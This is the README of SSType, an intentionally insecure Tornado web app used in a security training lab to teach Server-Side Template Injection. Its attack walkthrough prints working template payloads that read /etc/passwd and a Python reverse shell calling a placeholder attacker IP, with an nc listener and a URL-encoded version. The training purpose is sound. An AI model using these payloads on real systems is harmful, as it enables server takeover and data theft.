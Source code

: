 # SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></br>
    <a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [SSType](#sstype)
  - [Index](#index)
  - [What is Injection?](#what-is-injection)
  - [Setup](#setup)
  - [Get to know the app 💉](#get-to-know-the-app-)
  - [Attack Narrative](#attack-narrative)
  - [Lack of input validation allows injection of OS commands](#lack-of-input-validation-allows-injection-of-os-commands)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=Vitor) or using `curl` in a terminal:

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
